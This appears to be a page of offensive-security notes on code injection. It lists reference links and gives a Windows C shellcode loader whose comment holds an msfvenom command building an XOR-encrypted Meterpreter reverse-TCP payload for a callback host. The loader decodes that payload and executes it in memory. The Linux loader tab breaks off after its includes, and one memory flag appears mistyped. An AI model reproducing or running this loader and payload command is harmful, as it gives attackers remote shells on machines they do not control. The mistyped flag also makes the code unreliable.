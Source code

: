 # Code Injection

- [https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process](https://www.elastic.co/blog/ten-process-injection-techniques-technical-survey-common-and-trending-process)
- [https://blog.xpnsec.com/weird-ways-to-execute-dotnet/](https://blog.xpnsec.com/weird-ways-to-execute-dotnet/)
- [https://gitlab.com/users/ORCA666/projects](https://gitlab.com/users/ORCA666/projects)




## Shellcode as Function

- [http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/](http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/)
- [https://www.fergonez.net/post/shellcode-csharp](https://www.fergonez.net/post/shellcode-csharp)
- [https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis](https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis)
- [https://github.com/byt3bl33d3r/OffensiveNim/issues/16](https://github.com/byt3bl33d3r/OffensiveNim/issues/16)
- [https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c](https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Linux%20Shellcode%20Loaders/simpleLoader.c)
- [https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1](https://github.com/paranoidninja/Brute-Ratel-C4-Community-Kit/blob/main/deprecated/badger_template.ps1)

{% tabs %}
{% tab title="Windows" %}
{% code title="loader.c" %}
```c
#include <stdio.h>
#include <windows.h>

// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 -f raw -o met.bin --encrypt xor --encrypt-key a
// xxd -i met.bin > shellcode.h
#include "shellcode.h"

int main() {
    DWORD lpThreadId = 0;
    DWORD flOldProtect = 0;
    int bufsize = sizeof(buf);
    LPVOID f = VirtualAlloc(NULL, bufsize, MEM_RESERVER|MEM_COMMIT, PAGE_READWRITE);
    for (int i = 0; i < (int)bufsize-1; i++) { buf[i] = buf[i] ^ 'a'; }
    memcpy(f, buf, bufsize);
    VirtualProtect(f, bufsize, PAGE_EXECUTE_READ, &flOldProtect);
    ((void(*)())f)();
    //VirtualFree(f, 0, MEM_RELEASE);
    WaitForSingleObject((HANDLE)-1, -1);
    return 0;
}
```
{% endcode %}
{% endtab %}
{% tab title="Linux" %}
{% code title="loader.c" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

```